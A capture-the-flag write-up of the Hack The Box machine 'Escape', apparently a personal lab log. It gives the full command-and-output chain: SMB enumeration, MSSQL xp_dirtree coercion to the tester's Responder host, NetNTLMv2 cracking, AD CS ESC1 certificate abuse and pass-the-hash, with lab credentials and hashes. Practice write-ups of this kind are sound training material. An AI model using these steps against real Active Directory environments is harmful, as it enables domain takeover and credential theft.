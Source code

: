 # 🧑‍💻 Hack The Box – Escape

## 📌 Overview
- **Machine Name:** Escape
- **IP Address(es):** 10.10.11.202
- **Difficulty:** Medium
- **OS:** Windows
- **Tags:** SMB / MSSQL / NTLM Capture / AD CS (ESC1) / Pass-the-Hash
- **Date Completed:** 2025.08.30
- **Status:** ✅ User | ✅ Root

---

## 🖥️ Initial Recon
### Nmap
```zsh
nmap -sC -sV -oA nmap/escape 10.10.11.202
```
```
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows AD LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds  Windows SMB
464/tcp  open  kpasswd5      Kerberos kpasswd
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP
636/tcp  open  ssl/ldap      Microsoft Windows AD LDAP over SSL
1433/tcp open  ms-sql-s      Microsoft SQL Server
3268/tcp open  ldap          Microsoft AD Global Catalog
3269/tcp open  ssl/ldap      Microsoft AD Global Catalog (SSL)
Service Info: Host: DC; OS: Windows; Domain: sequel.htb
```
**Findings:**
- AD services present; domain appears to be **sequel.htb**.
- **MSSQL (1433)** is exposed.
- **SMB** accessible; worth anonymous share check.

---

## 📂 SMB
```zsh
nxc smb 10.10.11.202 -u 'a' -p '' --shares
```
```
[*] Enumerated shares
Public → READ
IPC$, NETLOGON, SYSVOL → READ
```
- Discovered **SQL Server Procedures.pdf** in `Public/` describing a temporary SQL account.

```zsh
SQL Server Procedures.pdf           A    49551  Fri Nov 18 14:39:43 2022
```

---

## 🗄️ MSSQL → NTLM Capture
Use the public SQL creds to reach MSSQL, then coerce authentication to our Responder.
```zsh
impacket-mssqlclient sequel.htb/PublicUser:'GuestUserCantWrite1'@DC.sequel.htb
Responder -I tun0
EXEC xp_dirtree '\\10.10.14.12\\pwnd'
```
**Captured NetNTLMv2:**
```
sql_svc::sequel:2f35d9d9e832ed20:2FC4FDA068BD5E60E027B6A2D2DC7DFE:...
```
Crack with rockyou:
```zsh
hashcat sql_svc.hash --wordlist /usr/share/wordlists/rockyou.txt
```
Recovered:
```
sql_svc:REGGIE1234ronnie
```

---

## 🧭 BloodHound (Phase 1)
Collect domain data with the new account.
```zsh
bloodhound-ce-python -d sequel.htb -u 'sql_svc' -p 'REGGIE1234ronnie' -c all -gc 10.10.11.202
```
**Notes:**
- `sql_svc` has no direct paths to DA.
- Focus shifts to host loot and logs for cred reuse.

---

## 🔎 Host Enumeration
As `sql_svc`, enumerate SQL-related dirs and logs:
- `C:\SQLServer\`
- `C:\SQLServer\Logs\ERRORLOG.BAK`

Found likely mistyped credential pair in logs:
```
... Logon failed for user 'sequel.htb\Ryan.Cooper' ...
... Logon failed for user 'NuclearMosquito3' ...
```

Validate:
```zsh
nxc smb sequel.htb -u 'Ryan.Cooper' -p 'NuclearMosquito3'
```
```
[+] sequel.htb\Ryan.Cooper:NuclearMosquito3
```

---

## 🔑 Foothold – Ryan.Cooper
Obtain a user shell and flag.
```zsh
evil-winrm -i 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3'
```
```
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> type user.txt
ad38640e732f897285aa7ae70d8013fd
```
*Result:* **User shell obtained.**

---

## 🧭 BloodHound (Phase 2)
- **Ryan.Cooper →** member of **Certificate Service DCOM Access** (can talk to CA).
- Enterprise CA **`sequel-DC-CA`** deployed.
- Review AD CS templates for abuse.

Hunt vulnerable templates (ESC1):
```zsh
certipy find -u 'Ryan.Cooper' -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -target-ip 10.10.11.202 -vulnerable -stdout -enable
```
Key finding:
```
ESC1: 'SEQUEL.HTB\Domain Users' can enroll; enrollee supplies subject; template allows client authentication
```

---

## 🚀 Privilege Escalation – AD CS ESC1
Request a certificate for **Administrator** with user-supplied UPN:
```zsh
certipy req -dc-ip 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3' \
  -ca 'sequel-DC-CA' -template 'UserAuthentication' -upn Administrator@sequel.htb -debug
```
Output:
```
[*] Saved certificate and private key to 'administrator.pfx'
```

Convert cert to NT hash (authenticate via PKINIT):
```zsh
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.202
```
```
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```

Pass-the-Hash for admin shell:
```zsh
evil-winrm -i 10.10.11.202 -u Administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```
```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
b04f3f6921caecfabba76e94cd13da28
```
*Result:* **Full domain compromise.**

---

## 🏁 Flags
- **User.txt:** `ad38640e732f897285aa7ae70d8013fd`
- **Root.txt:** `b04f3f6921caecfabba76e94cd13da28`

---

## 🧠 Lessons Learned

**Technical**
- MSSQL `xp_dirtree` → NTLM capture remains a reliable foothold path.
- Host log archaeology (e.g., `ERRORLOG.BAK`) can leak valid creds.
- AD CS **ESC1** (enrollee supplies subject + client auth) enables UPN impersonation to **Administrator**.
- Certificates → PKINIT → NT hash → PTH is a clean, detection-friendly chain.

**Personal**
- Always loot application logs; admins leak creds more than they think.
- When BloodHound shows no paths, pivot to service-specific abuse (MSSQL, AD CS).
- Keep Responder ready; coercion primitives pop up in surprising places.

**Reusable Techniques**
- SMB share recon → doc-based credential discovery.
- MSSQL coercion (`xp_dirtree`) → NetNTLMv2 capture → hashcat.
- AD CS hunting with `certipy find` → **ESC1** abuse → `certipy auth` → PTH to Admin.
